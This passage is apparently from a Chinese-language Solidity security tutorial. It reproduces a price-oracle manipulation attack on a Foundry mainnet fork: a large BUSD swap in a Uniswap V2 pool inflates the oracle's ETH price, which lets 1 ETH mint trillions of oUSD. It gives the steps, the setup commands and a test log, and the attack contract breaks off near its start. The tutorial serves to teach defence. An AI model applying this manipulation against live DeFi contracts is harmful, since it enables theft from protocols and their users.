 ### 攻击思路

我们针对有漏洞的价格预言机 `getPrice()` 函数进行攻击，步骤：

1. 准备一些 `BUSD`，可以是自有资金，也可以是闪电贷借款。在实现中，我们利用 Foundry 的 `deal` cheatcode 在本地网络上给自己铸造了 `1_000_000 BUSD`
2. 在 UniswapV2 的 `WETH-BUSD` 池中使用`BUSD`大量买入 `WETH`。具体实现见攻击代码的 `swapBUSDtoWETH()` 函数。
3. 在此情况下，`WETH-BUSD`池中代币对比例失去了平衡，`WETH` 瞬时价格暴涨，这时我们调用 `swap()` 函数将 `ETH` 转换为 `oUSD`。
4. **可选**: 在 UniswapV2 的 `WETH-BUSD` 池中卖出第 2 步买入的 `WETH`，收回本金。

这 4 步可以在一个交易中完成。

### Foundry 复现

我们选用 Foundry 进行操纵预言机攻击的复现，因为它很快，并且可以创建主网的本地分叉，方便测试。

1. 在安装好 Foundry 之后，在命令行输入下列命令启动新项目，并安装 openzeppelin 库。

```shell
forge init Oracle
cd Oracle
forge install Openzeppelin/openzeppelin-contracts
```

2. 在根目录下创建 `.env` 环境变量文件，并在其中添加主网 rpc，用于创建本地测试网。

```shell
MAINNET_RPC_URL= https://rpc.ankr.com/eth
```

3. 将这一讲的代码，`Oracle.sol` 和 `Oracle.t.sol`，分别复制到根目录的 `src` 和 `test` 文件夹下，然后使用下列命令启动攻击脚本。

```shell
forge test -vv --match-test testOracleAttack
```

4. 我们可以在终端中看到攻击结果。在攻击前，预言机 `getPrice()` 给出的 `ETH` 价格为 `1216 USD`，是正常的。但在我们使用 `1,000,000 BUSD` 在 UniswapV2 的 `WETH-BUSD` 池子中买入 `WETH` 之后，预言机给出的价格被操纵为 `17,979,841,782,699 USD`。这时，我们可以轻松的用 `1 ETH` 兑换 17 万亿枚 `oUSD`，完成攻击。

```shell
Running 1 test for test/Oracle.t.sol:OracleTest
[PASS] testOracleAttack() (gas: 356524)
Logs:
  1. ETH Price (before attack): 1216
  2. Swap 1,000,000 BUSD to WETH to manipulate the oracle
  3. ETH price (after attack): 17979841782699
  4. Minted 1797984178269 oUSD with 1 ETH (after attack)

Test result: ok. 1 passed; 0 failed; finished in 262.94ms
```

攻击代码：

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

```